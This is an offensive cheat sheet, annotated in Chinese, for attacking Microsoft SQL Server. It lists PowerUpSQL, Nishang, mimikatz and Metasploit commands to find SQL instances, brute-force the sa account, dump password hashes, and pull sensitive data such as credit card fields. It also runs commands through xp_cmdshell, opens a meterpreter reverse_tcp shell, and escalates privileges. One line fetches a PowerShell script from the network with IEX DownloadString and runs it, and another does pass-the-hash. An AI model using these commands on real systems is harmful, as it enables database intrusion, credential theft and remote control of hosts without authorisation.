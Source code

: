  ### Powershell脚本	
	>PowerShell -Command "[System.Data.Sql.SqlDataSourceEnumerator]::Instance.GetDataSources()" 列出域内mssql主机
	https://github.com/NetSPI/PowerUpSQL
	>Get-SQLInstanceLocal          #发现本机SQLServer实例
	>Get-SQLInstanceDomain         #发现域中的SQLServer实例
	>Get-SQLInstanceBroadcast      #发现工作组SQLServer实例
	>$Targets = Get-SQLInstanceBroadcast -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username sa -password admin | Where-Object {$_.Status -like "Accessible"} 工作组mssql爆破
	>$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username sa -password admin | Where-Object {$_.Status -like "Accessible"} 
	>Get-SQLInstanceBroadcast -Verbose | Get-SQLServerLoginDefaultPw –Verbose
	>$Targets 域内MSSQL爆破
	Nishang脚本爆破MSSQL
	>Invoke-BruteForce -ComputerName dc.zone.com -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service SQL -Verbose -StopOnSuccess
	>use auxiliary/scanner/mssql/mssql_login 爆破主机
	>use auxiliary/admin/mssql/mssql_exec 调用cmd
	>use auxiliary/admin/mssql/mssql_sql 执行SQL语句
	>use exploit/windows/mssql/mssql_payload 上线MSSQL主机
	http://192.168.0.107/ps/nishang/Execution/Execute-Command-MSSQL.ps1
	导入nishang执行MSSQL命令的脚本
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Execution/Execute-Command-MSSQL.ps1')
	>Execute-Command-MSSQL -ComputerName 192.168.0.98 -UserName sa -Password admin 会返回powershell
	>use auxiliary/scanner/mssql/mssql_hashdump 导出MSSQL密码
	已知服务器ntlmhash，未知mssql账号密码
	Hash注入+socks无密码连接mssql
	>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:. /ntlm:{hash} /run:\"C:\*\SocksCap64\SocksCap64_RunAsAdmin.exe\"" "exit"
	将SSMS.exe加入sockscap中启动
	命令行版sqltool
	https://github.com/uknowsec/SharpSQLTools
 ### MSF攻击mssql
  	定位mssql服务器
	>use auxiliary/scanner/mssql/mssql_ping
	>set rhosts 192.168.1.1/24
	>exploit
	密码破解
	>use auxiliary/scanner/mssql/mssql_login
	>set rhosts 192.168.1.3
	>set user_file /root/users.txt
	>set verbose false
	>exploit
	检索版本
	>use auxiliary/admin/mssql/mssql_sql
	>set rhosts 192.168.1.3
	>set username lowprwiv
	>set password Password@1
	>exploit
	枚举信息
	>use auxiliary/admin/mssql/mssql_enum
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	用户枚举
	>use auxiliary/admin/mssql/mssql_enum_sql_login
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	捕获登录信息
	>use auxiliary/server/capture/mssql
	>set srvhost 192.168.1.2
	>exploit
	DUMP数据
	>use auxiliary/admin/mssql/mssql_findandsampledata
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>set sample_size 4
	>set keywords FirstName|passw|credit
	>exploit
	DUMP哈希
	>use auxiliary/scanner/mssql/mssql_hashdump
	>set rhosts 192.168.1.149
	>set username sa
	>set password Password@1
	>expoit
	执行命令xp_cmdshell
	>use exploit/windows/mssql/mssql_payload
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	MSSQl_exec
	>use auxiliary/admin/mssql/mssql_exec
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>set cmd "net user"
	>exploit
	CLR程序集
	>use exploit/windows/mssql/mssql_clr_payload
	>set payload windows/x64/meterpreter/reverse_tcp
	>set username lowpriv
	>set password Password@1
	>exploit
	权限提升
	>use auxiliary/admin/mssql/mssql_escalate_dbowner
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	冒用
	>use auxiliary/admin/mssql/mssql_escalate_execute_as
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit